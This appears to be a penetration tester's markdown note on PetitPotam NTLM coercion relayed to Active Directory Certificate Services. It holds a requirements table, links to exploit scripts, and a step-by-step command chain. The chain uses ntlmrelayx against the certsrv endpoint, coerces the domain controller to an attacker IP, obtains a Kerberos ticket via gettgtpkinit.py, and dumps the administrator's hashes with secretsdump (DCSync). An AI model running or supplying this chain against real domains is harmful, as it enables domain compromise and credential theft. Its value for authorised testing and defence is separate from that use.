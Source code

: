 ```yaml
---
tags:
  - AD
---
```


## Attack requirements
|   |   |   |
|---|---|---|
|Feature / Component|Required for PetitPotam|Required for Full Relay to DA via AD CS|
|EFSRPC|✅ Yes|✅ Yes|
|NTLM Enabled|✅ Yes|✅ Yes|
|SMB/LDAP Signing Disabled|✅ Yes (on relay target)|✅ Yes (on certsrv or LDAP)|
|AD CS Installed|❌ No|✅ Yes|
|Vulnerable AD CS Template|❌ No|✅ Yes|
|EPA / Channel Binding Off|❌ No|✅ Yes|
## Identify
---
  
## Exploit
---
[https://github.com/topotam/PetitPotam](https://github.com/topotam/PetitPotam)

[https://raw.githubusercontent.com/S3cur3Th1sSh1t/Creds/master/PowershellScripts/Invoke-Petitpotam.ps1](https://raw.githubusercontent.com/S3cur3Th1sSh1t/Creds/master/PowershellScripts/Invoke-Petitpotam.ps1)  
## Start ntlmrelayx
---
```PowerShell
sudo ntlmrelayx.py -debug -smb2support --target http://CA01.domain.local/certsrv/certfnsh.asp --adcs --template DomainController
```
At the same time try to coerce DC to auth
```PowerShell
python3 PetitPotam.py <attackerIP> <DCIP>
```
You should receive a base64 encoded certificate in ntlmrelayx output
Next, we can take this base64 certificate and use `gettgtpkinit.py` to request a Ticket-Granting-Ticket (TGT) for the domain controller.
```PowerShell
python3 /opt/PKINITtools/gettgtpkinit.py DOMAIN.LOCAL/DC01\$ -pfx-base64 MIIStQIBAzCCEn8GCSqGSI...SNIP...CKBdGmY= dc01.ccache
```
Set krb env variable
```PowerShell
export KRB5CCNAME=dc01.ccache
```
Attempt DCSync
```PowerShell
impacket-secretsdump -just-dc-user DOMAIN/administrator -k -no-pass "DC01$"@DC01.DOMAIN.LOCAL
```